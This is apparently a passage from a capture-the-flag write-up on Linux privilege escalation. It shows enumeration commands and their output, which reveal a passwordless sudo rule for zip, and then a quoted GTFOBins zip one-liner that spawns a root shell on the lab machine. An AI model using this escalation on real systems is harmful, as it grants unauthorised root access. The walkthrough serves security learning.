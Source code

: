 I always run a few commands:
```bash
id <- check my permissions and groups
sudo -l <- what can I run as sudo?
uname -a <- check kernel version
ls /etc/cron <- look at cron jobs
sudo -V <- sudo version?
find / -type f -user root -perm /4000 2>/dev/null <- look for suid binaries
```
And this is what I got:
```bash
merlin@ubuntu:~$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ 
```
Awesome! We can zip as root, lets check out [gtfobins](gtfobins.github.io/): 
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
time to try it out.... and just pasting that in... bam! Root! I think you can find the `root.txt` now ;)
